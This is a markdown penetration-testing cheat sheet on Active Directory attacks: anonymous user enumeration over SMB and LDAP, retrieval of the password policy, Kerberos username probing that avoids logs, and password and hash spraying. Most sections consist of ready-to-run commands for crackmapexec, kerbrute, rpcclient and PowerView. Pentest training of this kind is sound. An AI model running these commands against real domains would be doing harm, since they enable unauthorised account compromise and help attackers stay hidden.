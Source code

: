 ## Uncredentialed Enumeration

Once you are in the network and have enumerated live hosts using nmap, tcpdump or whatever tool.
We need to find a way to establish foothold in domain by gettng username and credentials (clear text or NTLM hash).
It is important to get this access in the early stages of pentest so we can perform more enumeration and attacks.

Note: It’s possible to do this using the SYSTEM account because it can impersonate the computer.
A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). 


### Users Enumeration

- SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, 
such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using enum4linux
 enum4linux -U $DC_IP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

 # using rpcclient
 rpcclient -U "" -N $DC_IP
 rpcclient $> enumdomusers

 # using crackmapexec
 crackmapexec smb $DC_IP --users
 ```

- LDAP Anonymous Bind allow unauthenticated attackers to retrieve information from the domain, such as a complete
 listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using ldapsearch, we need to provide proper filter for getting usernames
 ldapsearch -h $DC_IP -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

 # using windapsearch, it is easier as we dont need filter
 windapsearch.py --dc-ip $DC_IP -u "" -U
 ```

- Do some OSINT and try to get information related to people of the target company.
- You can use `linkedin2username` to create a possible worlist of users.

 ```shell
 linkedin2username.py -c company_name -n $DOMAIN -g -o linked_in_users.txt
 ```
- kerbrute is a stealthy option for domain account enumeration.
- It uses kerberos protocol to check if the username is valid or not.
- It takes advantage of kerberos pre-authentication, as the failures will not trigger logs or alerts.
 like Windows event ID 4625: An account failed to log on and event ID 4768: A Kerberos authentication
 ticket (TGT) was requested. This will only be triggered if Kerberos event logging is enabled via Group Policy.
- If we are successful with this, we should mention it in report

 ```shell
 kerbrute userenum -d $DOMAIN --dc $DC_IP wordlist.txt -o valid_ad_users

 # The tool sends TGT requests to the domain controller without Kerberos 
 # Pre-Authentication to perform username enumeration. If the KDC responds 
 # with the error PRINCIPAL UNKNOWN, the username is invalid.
 ```

Note: crackmapexec will provide you bad password count and time the latest bad attempt occured. This 
will help you in knowing which accounts are close to lockdown and you should avoid attacking them.
This count is maintained separate on each DC in case of multiple DCs.


### Getting Domain Password Policy

- Be careful not to lock accounts while spraying.
- Try to get domain password policy and prepare password list accordingly.
- We can get password policy from `SMB NULL Session` or `LDAP Anonymous Bind`.
- SMB NULL Session from Linux:

 ```shell
 # using rpc client
 rpcclient -U "" -N $DC_IP
 rpcclient $> getdompwinfo

 # using enum4linux
 enum4linux -P $DC_IP

 # using enum4linux-ng (better choice)
 enum4linux-ng -P $DC_IP -oA domain_info
 ```


- SMB NULL Session from Windows:

 ```shell
 net use \\DC01\ipc$ "" /u:""

 # you can use it to check users and passwords
 net use \\DC01\ipc$ "" /u:username
 net use \\DC01\ipc$ "password" /u:username
 ```

- LDAP Anonymous Bind from Linux:

 ```shell
 ldapsearch -h $DC_IP -x -b "DC=<$DOMAIN>,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
 ```

- LDAP Anonymous Bind from Windows:

 ```shell
 # built in tool
 net accounts

 # using powerview
 import-module .\PowerView.ps1
 Get-DomainPolicy

 # You can also use crackmapexec
 ```

- If you have tried other methods and dont have foothold, you may ask the client to
provide password policy.


## Password Spraying

- Once we have enumerated usernames, password policy and prepared wordlists accordingly, we can start
spraying passwords.

- For Linux:

 ```shell
 # using rpc client
 for u in $(cat $USERNAMES_LIST);do rpcclient -U "$u%$Password" -c "getusername;quit" $DC_IP | grep Authority; done

 # using kerbrute
 kerbrute passwordspray -d $DOMAIN --dc $DC_IP valid_users.txt  $PASSWORD
 
 # using crackmapexec
 crackmapexec smb $DC_IP -u valid_users.txt -p $PASSWORD | grep +
 ```

- If you get some hits, you can validate them:

 ```shell
 crackmapexec smb $DC_IP -u username -p password
 ```

- For Windows:
 ```shell
 # DomainPasswordSpray is a cool tool. If you run it when you are authenticated to domain
 # it will retrieve password policy, valid users and exclude accounts within 1 attempt of locking out
 Import-Module .\DomainPasswordSpray.ps1
 Invoke-DomainPasswordSpray -Password $PASSWORD -OutFile spray_success -ErrorAction SilentlyContinue
 ```

- Always look for patterns in password, try password reuse etc.
- Internal password spraying is possible from domain user account as well as local admin if you have creds, NTLM hash.
- If you have hash of local admin on a machine, you can spray it on entire subnet to check if it is valid on other machines as well.

 ```shell
 crackmapexec smb --local-auth $IP/23 -u administrator -H $HASH | grep +
 ```

### Other Targets
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication